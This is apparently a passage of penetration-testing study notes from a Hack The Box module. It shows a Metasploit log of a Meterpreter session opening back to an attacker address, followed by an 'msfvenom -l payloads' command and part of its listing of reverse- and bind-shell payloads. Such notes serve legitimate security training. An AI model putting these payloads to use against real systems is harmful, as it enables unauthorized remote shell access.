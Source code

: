 ```shell-session
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000
```
## Crafting Payloads with MSFvenom
- to see all payloads:
```shell-session
TonyS23@htb[/htb]$ msfvenom -l payloads

Framework Payloads (592 total) [--payload <value>]
==================================================

    Name                                                Description
    ----                                                -----------
linux/x86/shell/reverse_nonx_tcp                    Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell/reverse_tcp                         Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell/reverse_tcp_uuid                    Spawn a command shell (staged). Connect back to the attacker
linux/x86/shell_bind_ipv6_tcp                       Listen for a connection over IPv6 and spawn a command shell
linux/x86/shell_bind_tcp                            Listen for a connection and spawn a command shell
linux/x86/shell_bind_tcp_random_port                Listen for a connection in a random port and spawn a command shell. Use nmap to discover the open port: 'nmap -sS target -p-'.
linux/x86/shell_find_port                           Spawn a shell on an established connection
linux/x86/shell_find_tag                            Spawn a shell on an established connection (proxy/nat safe)
linux/x86/shell_reverse_tcp                         Connect back to attacker and spawn a command shell
linux/x86/shell_reverse_tcp_ipv6                    Connect back to attacker and spawn a command shell over IPv6
linux/zarch/meterpreter_reverse_http                Run the Meterpreter / Mettle server payload (stageless)
linux/zarch/meterpreter_reverse_https               Run the Meterpreter / Mettle server payload (stageless)
linux/zarch/meterpreter_reverse_tcp                 Run the Meterpreter / Mettle server payload (stageless)
mainframe/shell_reverse_tcp                         Listen for a connection and spawn a  command shell. This implementation does not include ebcdic character translation, so a client wi
                                                        th translation capabilities is required. MSF handles this automatically.
multi/meterpreter/reverse_http                      Handle Meterpreter sessions regardless of the target arch/platform. Tunnel communication over HTTP
multi/meterpreter/reverse_https                     Handle Meterpreter sessions regardless of the target arch/platform. Tunnel communication over HTTPS
netware/shell/reverse_tcp                           Connect to the NetWare console (staged). Connect back to the attacker
nodejs/shell_bind_tcp                               Creates an interactive shell via nodejs
nodejs/shell_reverse_tcp                            Creates an interactive shell via nodejs
nodejs/shell_reverse_tcp_ssl                        Creates an interactive shell via nodejs, uses SSL
osx/armle/execute/bind_tcp                          Spawn a command shell (staged). Listen for a connection
osx/armle/execute/reverse_tcp                       Spawn a command shell (staged). Connect back to the attacker
osx/armle/shell/bind_tcp                            Spawn a command shell (staged). Listen for a connection
osx/armle/shell/reverse_tcp                         Spawn a command shell (staged). Connect back to the attacker
```